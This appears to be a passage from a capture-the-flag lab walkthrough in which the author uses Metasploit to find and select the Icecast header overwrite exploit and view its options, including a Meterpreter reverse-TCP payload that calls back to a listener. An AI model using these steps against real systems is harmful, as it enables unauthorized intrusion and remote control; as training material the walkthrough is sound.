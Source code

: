 After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 

exploit/windows/http/icecast_header

```
┌──(root㉿kali)-[~]
└─# msfconsole -q 
msf6 > search Icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header
```

Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.

```
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?

RHOSTS

```
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.117.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

```